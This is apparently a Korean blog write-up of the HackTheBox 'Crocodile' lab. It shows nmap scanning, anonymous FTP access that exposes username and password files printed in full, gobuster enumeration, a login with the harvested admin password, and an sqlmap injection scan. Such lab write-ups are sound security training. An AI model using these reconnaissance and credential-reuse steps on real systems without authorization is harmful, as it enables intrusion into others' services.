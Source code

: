 ```yaml
---
title: HTB Crocodile Write-up
categories: [HackTheBox, Basic]
tags: [HackTheBox]
images:
    path: 
---
```


이번 문제 역시 nmap으로 먼저 스캔을 해보자. 스캔할때는 기본적으로 `-sC`와 `-sV`를 붙이는게 좋을 것 같다.
``` bash
 read-min 🎉   ~  nmap -sV -sC 10.129.1.15
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-04 18:01 KST
Nmap scan report for 10.129.1.15
Host is up (0.27s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT     STATE    SERVICE        VERSION
21/tcp   open     ftp            vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.49
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp   open     http           Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Smash - Bootstrap Business Template
|_http-server-header: Apache/2.4.41 (Ubuntu)
902/tcp  filtered iss-realsecure
1061/tcp filtered kiosk
1071/tcp filtered bsquare-voip
1130/tcp filtered casp
1185/tcp filtered catchpole
7741/tcp filtered scriptview
8701/tcp filtered unknown
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.08 seconds
```
위와 같이 결과를 얻었는데 흥미로운 부분이 벌써 보인다. ftp login 허용과 관련된 부분이 보인다.
``` bash
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd

```

ftp 접속 후 존재하는 파일을 다운로드하였다.
``` bash
 read-min 🎉   ~  ftp 10.129.1.15

Connected to 10.129.1.15.
220 (vsFTPd 3.0.3)
Name (10.129.1.15:km): anonymous
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
226 Directory send OK.
```

다운로드한 파일의 내용은 각각 아래와 같다.
``` bash
 read-min 🎉   ~  cat allowed.userlist
aron
pwnmeow
egotisticalsw
admin
 read-min 🎉   ~  cat allowed.userlist.passwd
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

계정에 대한 정보는 획득한 것 같은데, 어디에 사용할지 알 수 없다. 우선 80 port에 http 서비스가 존재하여 gobuster로 스캔하였다.
``` bash
# gobuster dir -u http://10.129.1.15 -w dsstorewordlist.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.1.15
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                dsstorewordlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 311] [--> http://10.129.1.15/assets/]
/js                   (Status: 301) [Size: 307] [--> http://10.129.1.15/js/]
/css                  (Status: 301) [Size: 308] [--> http://10.129.1.15/css/]
/fonts                (Status: 301) [Size: 310] [--> http://10.129.1.15/fonts/]
/.htaccess            (Status: 403) [Size: 276]
/config.php           (Status: 200) [Size: 0]
/login.php            (Status: 200) [Size: 1577]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/dashboard            (Status: 301) [Size: 314] [--> http://10.129.1.15/dashboard/]
/.htpasswd            (Status: 403) [Size: 276]
/.htpasswds           (Status: 403) [Size: 276]
Progress: 1828 / 1829 (99.95%)
===============================================================
Finished
```

기본적으로 아래와 같이 별도의 로그인 화면은 존재하지 않지만, 스캔 결과를 보면 `config.php`, `login.php` 등이 있는 것을 알 수 있다.
![](../assets/image_post/20240204181658.png)

config.php는 접근해도 별 다른 정보가 없는 페이지이다. 대신 login.php 접근 시 아래와 같이 로그인 폼이 존재하는 것을 확인할 수 있다.
![](../assets/image_post/20240204181904.png)

이전에 획득한 admin 계정의 암호로 로그인 시 성공적으로 flag 획득이 가능하다.
![](../assets/image_post/20240204182420.png)

문제 풀이 완료 후 로그인 페이지에 대해 sql injection이 가능한지 확인해보고 싶었다. 그래서 이전에 사용한적 있는 sqlmap을 이용해보았다. 스캔 시간이 꽤 오래 걸렸지만, 별도로 나온 결과는 없다.
``` bash
sqlmap -u "http://10.129.44.43/login.php" --batch --risk=3 --level=5 --dbs
```

![](../assets/image_post/20240204182452.png)
